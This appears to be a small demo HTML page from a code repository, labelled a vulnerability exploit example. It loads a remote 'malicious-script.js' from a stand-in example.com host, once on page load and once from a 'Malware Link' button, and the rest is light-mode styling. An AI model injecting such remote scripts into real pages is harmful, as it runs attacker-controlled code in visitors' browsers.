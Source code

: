 # Echoflux-
APT21 
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
</head>
<body>

<h2 id='vulnerable'>Vulnerability Exploit Example (DON'T RUN THIS ON YOUR MACHINE)</h2>


<script src = "https://example.com/malicious-script.js"></script>

<p>This is an example of a vulnerable website.</p>

<div class="dark-mode">
    <button onclick="document.body.classList.add('light')">Light Mode</button>
    <button id='mal' onclick="
        var script=document.createElement('script');
            script.src = 'https://example.com/malicious-script.js';
            document.head.appendChild(script);
">Malware Link

      </div>

  <style>
   .dark-mode {
       background-color: #000;
       color:#fff;

    }
     body.light{
        transition: all 0.5s ease-in-out;
         transform-origin:left top ;
          -webkit-transition-timing-function:cubic-bezier(0,1,.47,1);
           box-shadow: none !important; 
            background-color : #ffffff !important ;  
              color:#000
               }
     body.light p{
        transition: all 0.5s ease-in-out;
         transform-origin:left top ;
          -webkit-transition-timing-function:cubic-bezier(0,1,.47,1);
           box-shadow: none !important; 
            background-color : #ffffff !important ;  
              color:#000
               }
      body.light h2{
        transition: all 0.5s ease-in-out;
         transform-origin:left top ;
          -webkit-transition-timing-function:cubic-bezier(0,1,.47,1);
           box-shadow: none !important; 
            background-color : #ffffff !important ;  
              color:#000
               }
    </style>
</body>
</html>

